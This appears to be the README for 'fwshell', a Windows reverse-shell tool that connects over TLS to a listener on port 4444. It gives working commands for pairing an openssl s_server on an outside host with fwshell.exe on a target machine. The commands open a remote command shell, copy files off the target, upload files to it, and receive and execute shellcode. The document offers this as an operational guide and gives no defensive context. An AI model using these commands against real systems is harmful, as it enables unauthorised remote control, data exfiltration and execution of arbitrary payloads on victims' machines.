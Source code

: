 Usage
-----

Usage: fwshell [options] hostname [port (default: 4444)]
 -r filename         Send a file.
 -w filename         Receive a file.
 -c command          Command to execute (default: cmd).
 -s                  Receive a shellcode and execute it.
 -E                  Turn off TLS encryption.
 -t delay            Retry every delay seconds.

Caveats
-------

SSL certificate pinning is not (yet?) implemented.

Reverse shell
-------------

On the server:
$ openssl s_server -quiet -no_ssl2 -no_ssl3 -key cert.pem -cert cert.pem -accept 4444

On the target:
C:> fwshell.exe target.com


Receiving a file
----------------

On the server:
$ openssl s_server -quiet -no_ssl2 -no_ssl3 -key cert.pem -cert cert.pem -accept 4444 > file

On the target:
C:> fwshell.exe target.com -r file

Sending a file
--------------

On the server:
$ cat file | openssl s_server -quiet -no_ssl2 -no_ssl3 -key cert.pem -cert cert.pem -accept 4444
Then kill openssl. There is a problem with OpenSSL s_server, it does not automatically disconnect after the end of input.

On the target:
C:> fwshell.exe target.com -w file

Executing a shellcode
----------------------

On the server:
$ cat shellcode.bin | openssl s_server -quiet -no_ssl2 -no_ssl3 -key cert.pem -cert cert.pem -accept 4444
Then kill openssl. There is a problem with OpenSSL s_server, it does not automatically disconnect after the end of input.

Note: This can fail with OpenSSL. Better use a different server.

On the target:
C:> fwshell.exe target.com -s